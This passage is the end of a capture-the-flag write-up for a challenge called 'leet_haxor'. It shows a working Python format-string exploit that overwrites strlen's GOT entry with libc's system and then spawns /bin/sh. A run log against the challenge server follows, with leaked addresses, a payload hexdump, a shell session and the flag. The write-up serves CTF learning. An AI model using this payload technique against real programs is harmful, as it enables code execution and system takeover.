 ```python
	log.info('strlen   : 0x%X' % strlen)
	log.info('libc_base: 0x%X' % base)
	lo = system & 0xFFFF
	hi = (system >> 16) & 0xFFFF
	log.info('lo: %d, hi: %d' % (lo,hi))
	if lo < hi:
		payload = b'%0'+str(lo).encode()+b'X'
		payload += b'%YY$hn'
		payload += b'%0'+str(hi-lo).encode()+b'X'
		payload += b'%ZZ$hn'
		while (len(payload) - 2) % 8 != 0:
			payload += b'Q'
		next = (len(payload)) // 8
		payload += p64(strlen_got) + p64(strlen_got+2) + b'\n'
		payload = payload.replace(b'YY', str(18+next).encode())
		payload = payload.replace(b'ZZ', str(19+next).encode())
		print (hexdump(payload))

	else:
		payload = b'%0'+str(hi).encode()+b'X'
		payload += b'%YY$hn'
		payload += b'%0'+str(lo-hi).encode()+b'X'
		payload += b'%ZZ$hn'
		while (len(payload)) % 8 != 0:
			payload += b'Q'
		next = (len(payload)) // 8
		payload += p64(strlen_got+2) + p64(strlen_got) + b'\n'
		payload = payload.replace(b'YY', str(18+next).encode())
		payload = payload.replace(b'ZZ', str(19+next).encode())
		print (hexdump(payload))
	leet(payload, False)
	p.sendline('0')
	p.sendlineafter(b'):\n', '/bin/sh\x00')
	p.interactive()

if __name__ == '__main__':
	main()
```

```bash
(env3) osboxes@osboxes:~/Desktop/nctf$ python leet_haxor.py
[+] Opening connection to jh2i.com on port 50022: Done
[*] system   : 0x7F273089F440
[*] strlen   : 0x7F27308EDC70
[*] libc_base: 0x7F2730850000
[*] lo: 62528, hi: 12425
00000000  25 30 31 32  34 32 35 58  25 32 32 24  68 6e 25 30  │%012│425X│%22$│hn%0│
00000010  35 30 31 30  33 58 25 32  33 24 68 6e  51 51 51 51  │5010│3X%2│3$hn│QQQQ│
00000020  22 10 60 00  00 00 00 00  20 10 60 00  00 00 00 00  │"·`·│····│ ·`·│····│
00000030  0a                                                  │·│
00000031
[*] Switching to interactive mode
$ ls
bin  bin.c  flag.txt
$ cat flag.txt
flag{w0w_y0u_4r3_4_l33t_h@x0r}
```

Flag: `flag{w0w_y0u_4r3_4_l33t_h@x0r}`